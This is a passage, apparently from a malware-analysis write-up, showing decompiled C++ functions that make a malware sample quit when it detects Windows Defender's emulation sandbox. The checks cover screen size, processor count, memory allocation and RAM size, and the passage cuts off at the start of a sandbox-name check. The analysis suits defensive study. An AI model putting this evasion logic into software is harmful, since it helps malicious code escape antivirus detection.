 # Windows Defender sandbox evasion

Windows Defender has its own virtual machine on which it runs files downloaded from the Internet or unpacked from archives. A further set of functions helps to detect that the malware is not running on a real PC and terminate the execution.

```cpp
int mlw_anti_windows_sandbox_by_screen_size()
{
  int result; // eax
  HDC hdc; // [esp+0h] [ebp-Ch]
  int DeviceCaps; // [esp+4h] [ebp-8h]

  hdc = CreateDCA(DISPLAY, 0, 0, 0);
  DeviceCaps = GetDeviceCaps(hdc, 10);
  result = ReleaseDC(0, hdc);
  if ( DeviceCaps < 666 )
    ExitProcess(0);
  return result;
}
void mlw_anti_windows_sandbox_by_processors_count()
{
  struct _SYSTEM_INFO SystemInfo; // [esp+4h] [ebp-24h] BYREF

  GetSystemInfo(&SystemInfo);
  if ( SystemInfo.dwNumberOfProcessors < 2 )
    ExitProcess(0);
}
BOOL mlw_try_private_mem_region()
{
  HANDLE CurrentProcess; // eax

  CurrentProcess = GetCurrentProcess();
  if ( !VirtualAllocExNuma(CurrentProcess, 0, 0x7D0u, 0x3000u, 0x40u, 0) )
    ExitProcess(0);
  return alloc_mem_and_free();
}
int mlw_anti_windows_sandbox_by_RAM_size()
{
  __int64 v0; // rax
  __int64 v1; // rax
  struct _MEMORYSTATUSEX Buffer; // [esp+0h] [ebp-48h] BYREF
  unsigned __int64 v4; // [esp+40h] [ebp-8h]

  sub_411400(&Buffer, 0, 64);
  Buffer.dwLength = 64;
  LODWORD(v0) = GlobalMemoryStatusEx(&Buffer);
  if ( (_DWORD)v0 == 1 )
  {
    v1 = sub_4133A0(Buffer.ullTotalPhys, HIDWORD(Buffer.ullTotalPhys), 1024, 0);
    v0 = sub_4133A0(v1, HIDWORD(v1), 1024, 0);
    v4 = v0;
  }
  else
  {
    v4 = 0i64;
  }
  if ( v4 < 0x457 )
    ExitProcess(0);
  return v0;
}
int mlw_check_windows_sandbox_name()
{
```